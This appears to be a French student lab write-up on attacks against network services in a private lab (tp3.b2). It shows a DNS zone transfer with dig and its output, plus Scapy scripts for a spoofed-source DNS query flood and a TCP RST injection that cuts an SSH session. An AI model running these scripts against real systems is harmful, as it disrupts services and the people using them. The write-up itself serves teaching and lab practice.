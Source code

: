 # Partie IV : Attaques sur les services en place

## Sommaire

- [Partie IV : Attaques sur les services en place](#partie-iv--attaques-sur-les-services-en-place)
  - [Sommaire](#sommaire)
  - [1. DNS](#1-dns)
    - [A. Transfert de zone](#a-transfert-de-zone)
    - [B. Flood](#b-flood)
  - [2. TCP](#2-tcp)
    - [A. TCP RST](#a-tcp-rst)

## 1. DNS

### A. Transfert de zone

🌞 **Requêter l'enregistrement AXFR**

```
root@debian:~# dig @dns.tp3.b2 tp3.b2 axfr

; <<>> DiG 9.18.28-1~deb12u2-Debian <<>> @dns.tp3.b2 tp3.b2 axfr
; (1 server found)
; global options: +cmd

tp3.b2.              86400   IN      SOA     dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400
tp3.b2.              86400   IN      NS      dns.tp3.b2.
coolsite.tp3.b2.     86400   IN      A       10.3.3.4
dns.tp3.b2.          86400   IN      A       10.3.3.1
meow.tp3.b2.         86400   IN      A       10.3.3.6
prout.tp3.b2.        86400   IN      A       10.3.3.5
supersite.tp3.b2.    86400   IN      A       10.3.3.2
web.tp3.b2.          86400   IN      A       10.3.3.4
web2.tp3.b2.         86400   IN      A       10.3.3.5
web3.tp3.b2.         86400   IN      A       10.3.3.6
web4.tp3.b2.         86400   IN      A       10.3.3.2
tp3.b2.              86400   IN      SOA     dns.tp3.b2. admin.tp3.b2. 2019061800 3600 1800 604800 86400

; Query time: 39 msec
; SERVER: 10.3.3.1#53(dns.tp3.b2) (TCP)
; WHEN: Fri Jan 17 10:33:35 CET 2025
; XFR size: 12 records (messages 1, bytes 352)
```

### B. Flood

🌞 **Spoof DNS query**

```
from scapy.all import *

dns_request = IP(src="10.3.2.10", dst="10.3.3.1") / UDP(sport=RandShort(), dport=53) / DNS(rd=1, qd=DNSQR(qname="tp3.b2", qtype="AXFR"))

send(dns_request, verbose=0)
```
[DNS flood](flood_dns.pcapng)

## 2. TCP

### A. TCP RST


🌞 **Mettre en place une attaque TCP RST**

```
J'ai établie une connexion SSH entre 2 machines, et j'ai récupéré les numéros "seq" et "ack" sur le dernier packet de la capture wireshark.
La connexion SSH a bien été intérompue.
```
```
from scapy.all import *

src_ip = "10.3.3.2"
dst_ip = "10.3.3.1"
src_port = 58068
dst_port = 22

seq_number = 1773907393
ack_number = 867093078

rst_packet = IP(src=src_ip, dst=dst_ip) / TCP(sport=src_port, dport=dst_port, flags="R", seq=seq_number, ack=ack_number)

send(rst_packet, verbose=1)
```

[TCP RST](tcp_rst.pcapng)